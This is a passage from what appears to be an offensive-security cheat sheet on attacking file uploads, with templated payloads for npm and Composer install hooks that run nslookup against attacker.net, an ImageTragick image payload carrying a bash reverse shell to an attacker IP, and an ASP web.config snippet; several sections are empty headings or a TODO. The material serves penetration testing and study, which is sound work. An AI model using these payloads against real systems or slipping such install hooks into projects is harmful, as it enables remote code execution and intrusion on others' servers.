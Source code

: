 ```xml[web.config]
<%Response.write("<!-"&"-") %>
-->
```

### JSON based dependency managers

You never know where the uploaded files end up.
If you can make a dependency manager parse your files, this could help you:

- **Javascript's NPM, Yarn** _(json escaped)_: 

```json[package.json]
"scripts": {
    "prepare": "{{ payload /usr/sbin/nslookup attacker.net } escape-4-json }"
}
```

- **PHP's Composer** _(json escaped)_:

```json[composer.json]
"scripts": {
    "pre-command-run": [
        "{{ payload /usr/sbin/nslookup attacker.net } escape-4-json }"
    ]
}
```

## Attacking parsers

If the uploaded file seems to be both stored and served securely, the last resort is to try exploiting vulnerabilities specific to the parsing or processing of different file formats.
**For example**, you know that the server parses XML-based files, such as Microsoft Office `.doc` or `.xls` files, this may be a potential vector for [XML External Entity injection attacks](xxe).

> TODO add and complete parser known exploits

### XXE on Office-like documents

### FFMPEG HLS

### Exiftool CVE-2021-22204

### Image Tragik

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/{{ lhost attacker-ip }}/{{ lport attacker-port }} 0>&1|{{ payload id }} #"hello)'
pop graphic-context
```

## Other trickz 


[^1]: Port Swigger Web Security Academy: https://portswigger.net/web-security/file-upload
[^2]: Wikipedia - List of file signatrues: https://en.wikipedia.org/wiki/List_of_file_signatures
[^3]: Configure handlers on IIS: https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/#configuration-sample